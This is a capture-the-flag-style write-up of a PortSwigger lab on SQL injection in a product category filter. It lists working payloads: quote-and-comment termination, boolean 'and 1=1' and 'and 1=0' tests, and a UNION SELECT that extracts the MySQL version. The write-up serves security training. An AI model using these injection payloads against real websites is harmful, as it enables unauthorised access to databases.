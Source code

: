 # SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2')

---------------------------------------------
Reference: 
- https://portswigger.net/web-security/sql-injection/examining-the-database
- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


Filtering using GET parameter “category”: "/filter?category=Accesories"

<img width="1283" height="863" alt="1" src="https://github.com/user-attachments/assets/3bac46cf-d13d-4cd4-bb21-6f9e8f2e3bb2" />


/filter?category=Accesories -> Return 4 items

/filter?category=Accessories';# -> Return 4 items, the query is finished

/filter?category=Accessories'+and+'1'='1  -> Return 4 items

/filter?category=Accessories'+and+'1'='0  -> Return 0 items

/filter?category=Accessories'+union+select+0,@@version#

```
/filter?category=Accessories'+union+select+0,@@version#
``` 

<img width="1534" height="832" alt="2" src="https://github.com/user-attachments/assets/706a6b72-4a5a-4647-924c-2db77e8dfc17" />

